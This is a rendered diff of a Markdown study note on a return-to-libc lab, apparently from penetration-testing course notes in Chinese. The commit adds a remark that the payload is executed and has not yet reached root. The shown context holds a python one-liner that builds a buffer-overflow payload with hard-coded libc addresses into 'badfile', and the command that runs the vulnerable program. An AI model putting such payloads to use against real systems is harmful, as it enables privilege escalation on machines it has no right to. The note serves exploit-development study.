

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day4.md, the part around the change. GitHub-like rendering; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day4.md
+++ b/Cpent/Day4.md
@@ -161,7 +161,8 @@ Return to Libc
     find /bin/sh
 ![image](https://github.com/user-attachments/assets/d9d1b723-5667-4a89-bfd0-34074a0e55f6)
 
-    將找到的機器語言加入到badfile
+    將找到的機器語言加入到badfile並執行
+    權限目前還未提升到root
     python -c 'print "A"*24 + "\xb0\xfd\xe3\xb7" + "\xe0\x39\xe3\xb7" +"\x2b\x0b\xf6\xb7"' > badfile
     ./retlib
 ![image](https://github.com/user-attachments/assets/7078dd06-c7f2-4d3f-8cd8-ce23cff82a0b)
```
